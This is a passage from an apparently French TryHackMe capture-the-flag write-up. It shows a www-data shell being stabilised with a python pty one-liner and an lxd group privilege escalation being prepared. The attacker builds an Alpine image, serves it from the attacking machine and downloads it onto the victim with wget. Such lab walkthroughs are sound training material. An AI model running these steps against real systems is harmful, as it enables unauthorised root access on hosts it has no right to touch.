 On obtient un shell.   
On voit que le propriétaire de la session est : www-data    

**This user belongs to a group that differs on your own group, What is this group?**

Le groupe qui diffère de www-data est : lxd  

**Spawn a tty shell.**

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/$ 
```

On stabilise le shell.   

**In this question you should be do a basic research on how linux containers (LXD) work, it has a small online tutorial. Googling "lxd try it online".**

Il y une méthode pur s'échapper du conteneur et obtenir un shell root.   

**The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory. Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ git clone https://github.com/timruff/lxd-alpine-builder
Clonage dans 'lxd-alpine-builder'...
remote: Enumerating objects: 35, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 35 (delta 2), reused 2 (delta 0), pack-reused 27
Réception d'objets: 100% (35/35), 21.69 Kio | 419.00 Kio/s, fait.
Résolution des deltas: 100% (8/8), fait.
tim@kali:~/Bureau/tryhackme/write-up$ cd lxd-alpine-builder/

tim@kali:~/Bureau/tryhackme/write-up/lxd-alpine-builder$ sudo ./build-alpine 
[sudo] Mot de passe de tim : 
Determining the latest release... v3.14
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.14/main/x86_64
...

tim@kali:~/Bureau/tryhackme/write-up/lxd-alpine-builder$ ls
alpine-v3.14-x86_64-20210820_1703.tar.gz  build-alpine  LICENSE  README.md

tim@kali:~/Bureau/tryhackme/write-up/lxd-alpine-builder$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

--------------------------------------------------------------------------------

www-data@ubuntu:/$ cd /tmp
cd /tmp
www-data@ubuntu:/tmp$ wget http://10.9.228.66:8000/alpine-v3.14-x86_64-20210820_1703.tar.gz -nv
<6:8000/alpine-v3.14-x86_64-20210820_1703.tar.gz -nv
2021-08-20 08:07:32 URL:http://10.9.228.66:8000/alpine-v3.14-x86_64-20210820_1703.tar.gz [3245253/3245253] -> "alpine-v3.14-x86_64-20210820_1703.tar.gz" [1]
```
